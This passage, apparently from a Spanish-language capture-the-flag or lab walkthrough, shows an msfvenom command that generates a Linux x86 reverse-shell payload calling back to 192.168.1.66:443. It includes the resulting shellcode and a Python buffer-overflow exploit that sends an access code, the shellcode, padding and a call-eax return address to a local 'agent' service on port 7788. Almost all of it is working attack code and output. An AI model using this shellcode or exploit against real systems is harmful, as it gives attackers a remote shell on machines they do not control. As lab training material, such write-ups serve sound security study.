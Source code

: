 ```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.66 LPORT=443 -b '\x00\x0a\0xd' -f c
```

Resultado:

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 92 (iteration=0)
x86/call4_dword_xor chosen with final size 92
Payload size: 92 bytes
Final size of c file: 413 bytes
unsigned char buf[] = 
"\x2b\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\xcd\xf8\x18\xe0\x83\xee\xfc\xe2\xf4\xfc\x23\xef\x03"
"\x9e\xbb\x4b\x8a\xcf\x71\xf9\x50\xab\x35\x98\x73\x94\x48"
"\x27\x2d\x4d\xb1\x61\x19\xa5\x38\xb0\xe1\x8f\x90\x1a\xe0"
"\xcc\x43\x91\x01\x7d\x9e\x48\xb1\x9e\x4b\x1b\x69\x2c\x35"
"\x98\xb2\xa5\x96\x37\x93\xa5\x90\x37\xcf\xaf\x91\x91\x03"
"\x9f\xab\x91\x01\x7d\xf3\xd5\x60";
```

Acción: `nvim exploit.py`

Resultado:

```bash
#!/usr/bin/python3

from struct import pack
import socket

shellcode = (b"\x2b\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
b"\x0e\x11\x5b\xa3\x92\x83\xee\xfc\xe2\xf4\x20\x80\x54\x71"
b"\x42\x18\xf0\xf8\x13\xd2\x42\x22\x77\x96\x23\x01\x48\xeb"
b"\x9c\x5f\x91\x12\xda\x6b\x79\x9b\x0b\x93\x53\x33\xa1\x92"
b"\x10\xe0\x2a\x73\xa1\x3d\xf3\xc3\x42\xe8\xa0\x1b\xf0\x96"
b"\x23\xc0\x79\x35\x8c\xe1\x79\x33\x8c\xbd\x73\x32\x2a\x71"
b"\x43\x08\x2a\x73\xa1\x50\x6e\x12")

offset = 168

# > objdump -d agent | grep -i "FF D0"
#   8048563:	ff d0                	call   *%eax

payload = shellcode + b"A" * (offset - len(shellcode)) + pack("<I", 0x08048563) + b"\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 7788))
s.recv(1024)
s.send(b"48093572\n")
s.recv(1024)
s.send(b"3\n")
s.recv(1024)
s.send(payload)
```

